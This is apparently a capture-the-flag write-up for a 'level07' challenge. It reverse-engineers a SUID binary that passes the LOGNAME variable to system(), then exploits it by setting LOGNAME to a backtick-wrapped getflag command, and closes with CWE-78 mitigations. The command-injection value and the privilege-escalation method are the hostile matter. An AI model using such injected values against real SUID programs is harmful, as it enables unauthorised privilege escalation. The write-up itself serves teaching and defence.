


## Step 1 — Discovering the Binary

Upon logging in as `level07`, we find an executable in the home directory. Checking its permissions reveals something critical:

```bash
ls -la level07
```

The binary has the **SUID bit set** (`rws`) for the user `flag07`:

```
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

This means: **when this binary is executed, it runs with the privileges of `flag07`**, not `level07`. This is the gateway to obtaining the flag — if we can make this binary execute `getflag` on our behalf, we win.

---

## Step 2 — Reverse Engineering with Ghidra

Since we cannot read the source code directly, we transfer the binary to our machine and open it in **Ghidra** to decompile it and understand its logic.

### Decompiled Source Code



### Assembly Listing



### Critical Lines

After decompilation, Ghidra reveals the following key logic:

```c
local_18 = getegid();
local_14 = geteuid();
setresgid(local_18, local_18, local_18);
setresuid(local_14, local_14, local_14);

local_1c = (char *)0x0;
pcVar1 = getenv("LOGNAME");                     // ← reads env variable
asprintf(&local_1c, "/bin/echo %s ", pcVar1);   // ← builds a shell command
iVar2 = system(local_1c);                       // ← executes it !
```

The program:
1. Elevates its privileges to those of `flag07` (via `setresuid` / `setresgid`)
2. Reads the environment variable `LOGNAME` **without any validation**
3. Injects it directly into a shell command string
4. Executes that string with `system()` — which spawns a `/bin/sh` shell

---

## Step 3 — Exploiting the Vulnerability

The vulnerability is clear: **`LOGNAME` is user-controlled and never sanitized**. We can set it to anything we want before running the binary.

Normally, `LOGNAME` is set to your username (`level07`), so the command executed would be:

```bash
/bin/echo level07
```

But if we override `LOGNAME` with `getflag`, the constructed command becomes:

```bash
/bin/echo getflag
```

Wait — that would just print the word `getflag`. We need to **break out of the echo command** and inject our own command. We can use a semicolon or simply replace the whole value:

### The Exploit

```bash
export LOGNAME='`getflag`'
./level07
```

The constructed command becomes:

```bash
/bin/echo `getflag`
```

Since the binary runs as `flag07` (thanks to SUID), `getflag` is executed with `flag07`'s privileges and prints the flag. 

---

## Result

```
Check flag.Here is your token: fiumuikeil55xe9cu4dood66h
```

---

## Vulnerability Explanation

### Name: **OS Command Injection** (CWE-78)

This is a classic **Command Injection** vulnerability, more specifically caused by **unsanitized environment variable injection** into a shell command.

### Why is it dangerous?

| Risk | Description |
|---|---|
| **Privilege escalation** | The SUID binary runs as a privileged user. Any injected command inherits those privileges. |
| **Full system compromise** | An attacker can execute arbitrary commands: read files, create backdoors, exfiltrate data. |
| **Silent & simple** | The attack requires no special tools — just `export` and running the binary. |
| **No user interaction needed** | Once the environment is set, the exploit is automatic. |

### Why does it happen?

The root cause is the use of `system()` with **unvalidated user-controlled input**. The `system()` function passes its argument directly to `/bin/sh -c`, which interprets shell metacharacters like `;`, `|`, `&&`, `$()`, etc.

```c
// Dangerous pattern
pcVar1 = getenv("LOGNAME");           // user controls this
asprintf(&cmd, "/bin/echo %s", pcVar1);
system(cmd);                          // executes in a shell → injection possible
```

### How to protect against it?

1. **Never use `system()` with user-controlled input.** Use `execve()` with a hardcoded path and argument array instead — it does not invoke a shell.

   ```c
   //  Safe alternative
   char *args[] = { "/bin/echo", getenv("LOGNAME"), NULL };
   execve("/bin/echo", args, NULL);
   ```

2. **Validate and sanitize all inputs**, especially environment variables. Allowlist only expected characters (e.g., alphanumeric + underscore).

3. **Avoid SUID binaries when possible.** If SUID is necessary, minimize the code surface and never call `system()` within them.

4. **Drop privileges as early as possible** and only elevate when strictly necessary.

5. **Use secure coding tools** like `static analyzers` (e.g., `cppcheck`, `semgrep`) to detect dangerous function usage at build time.

---

## References

- [CWE-78: Improper Neutralization of Special Elements used in an OS Command](https://cwe.mitre.org/data/definitions/78.html)
- [OWASP: Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Linux SUID / Privilege Escalation](https://gtfobins.github.io/)
- [Ghidra Reverse Engineering Tool](https://ghidra-sre.org/)
